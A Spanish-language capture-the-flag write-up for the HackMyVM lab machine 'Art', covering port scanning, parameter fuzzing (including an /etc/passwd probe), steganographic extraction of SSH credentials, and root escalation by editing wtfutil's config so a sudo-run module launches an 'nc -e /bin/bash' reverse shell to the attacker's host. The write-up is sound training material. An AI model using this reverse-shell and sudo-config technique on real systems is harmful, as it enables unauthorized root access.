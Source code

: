 ```yaml
---
layout: post
title: Art
date: 2022-12-02
author: BlackCage
categories: [HackMyVM]
tags: [HMV, Enumeration, Steganography, File Edit]
---
```


# Art [ Hack My VM ]

### Reconocimiento
##### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 192.168.1.108 -oG allPorts`
- `nmap -sCV -p22,80 192.168.1.108 -oN targeted`

No vemos nada interesante, sigamos investigando.

### Shell
Si entramos a la página veremos una imagen y un texto (`SEE HMV GALLERY!`), si miramos el código de la página veremos un comentario que nos dice que necesita resolver el problema con el parámetro `tag`.

Si buscamos el archivo `index.php` veremos que es la misma página, por lo que con `GoBuster` buscaré por ficheros `PHP`. Tras unos minutos sin resultados decidí `fuzzear` los parámetros del `index.php`. Para ello utilicé `WFuzz`, una herramienta hecha en `Python`.

```
wfuzz -u "http://192.168.1.108/index.php?FUZZ=/etc/passwd" -w directory-list-2.3-medium.txt
```

Tras unos segundos veremos que sólo existe un parámetro, el `tag`. En este caso no hay `LFI`, pero podemos tratar de `fuzzear` a ver si encontramos un archivo con el parámetro `tag`. Para elo utilicé de nuevo `WFuzz`:

```
wfuzz -u "http://192.168.1.108/index.php?tag=FUZZ" -w directory-list-2.3-medium.txt
```

Tras unos segundos veremos tres resultados: `0`, `beauty` y `beautiful`. Si miramos `0` y `beautiful` nos muestran lo que ya habíamos visto, pero `beauty` nos muestra una imagen diferente, vamos a ver si oculta algo.

Para ello utilicé una herramienta llamada `StegHide`, la cual nos ayudará a encontrar mensajes ocultos en imágenes.

- `steghide extract -sf dsa32.jpg`

```
Enter passphrase:
wrote extracted data to "yes.txt".
```

Se nos creó un archivo llamado `yes.txt` con lo que la herramienta extrajo de la foto, vamos a ver qué es:

```
lion/shel0vesyou
```

Estupendo! Tenemos las credenciales de `Lion`!

### Subida de privilegios
Una vez nos hayamos conectado por `SSH` a la máquina como `Lion` querremos ser `root`, así que comencé por hacer `sudo -l` para listar lo que podía hacer en la máquina.

```
Matching Defaults entries for lion on art:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
 
User lion may run the following commands on art:
    (ALL : ALL) NOPASSWD: /bin/wtfutil
```

Como vemos podemos ejecutar un binario llamado `wtfutil` como cualquier usuario, es decir, podemos ejecutarlo como `root`. Tras iniciarlo vemos un link al [`GitHub`](https://github.com/wtfutil/wtf) del creador y, ahí, podemos encontrar la herramienta.

Vemos que cuando la iniciamos se va a la carpeta personal del usuario que la inició y de ahí a una carpeta llamada `.config`. Dentro hay un archivo con el nombre de `config.yml`.

Si miramos el archivo veremos que va por módulos. El módulo `uptime` ejecuta en segundo plano un comando con unos argumentos, vamos a cambiarlos por una Reverse Shell con `NC`, para ello nos pondremos en escucha  en nuestra máquina por el puerto que queramos, en mi caso el `4444`.

- `nc -nlvp 4444`

Bien, ahora que lo tenemos preparado podemos cambiar las líneas `args` y `cmd` de nuestro archivo de configuración (`/home/lion/.config/config.yml`).

```
args: ['-e','/bin/bash','192.168.1.103','4444']
cmd: "nc"
```

Como vimos antes si ejecutamos la herramienta como `root` usará la configuración que tiene `root`, pero no hemos editado ese archivo (no tenemos permisos) pero sí hemos editado nuestro fichero. Para utilizar nuestro fichero tenemos que utilizar el parámetro `--config=` y especificar la configuración editada, en este caso está en `/home/lion/.config/config.yml`.

Bien! Tras iniciar la herramienta como `root` recibimos la Shell! Qué fácil!